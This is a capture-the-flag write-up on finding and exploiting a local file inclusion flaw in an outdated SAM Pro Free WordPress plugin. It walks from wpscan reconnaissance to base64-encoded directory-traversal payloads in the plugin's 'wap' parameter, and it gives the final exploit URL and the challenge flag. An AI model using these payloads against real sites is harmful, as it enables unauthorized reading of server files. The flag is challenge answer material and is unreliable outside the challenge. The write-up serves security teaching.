 # What The LFI ?

![](./img/1.png#center)

![](./img/2.png#center)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

> http://54.201.224.15:14099/?p=1

> http://54.201.224.15:14099/?cat=1

> http://54.201.224.15:14099/?s=test

And I try basic LFI like this :

> http://54.201.224.15:14099/?p=/var/www/blah.php

> http://54.201.224.15:14099/?p=http://google.fr

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

> wpscan 54.201.224.15:14099

Result :

![](./img/3.png#center)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link]( https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/

Url :

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK

Result :

![](./img/4.png#center)

It’s not working because we are in the wrong directory, let’s change it by :

> ../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=

Final url :

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=

**The flag : flag{dont_include_files_derived_from_user_input_kthx_bai}**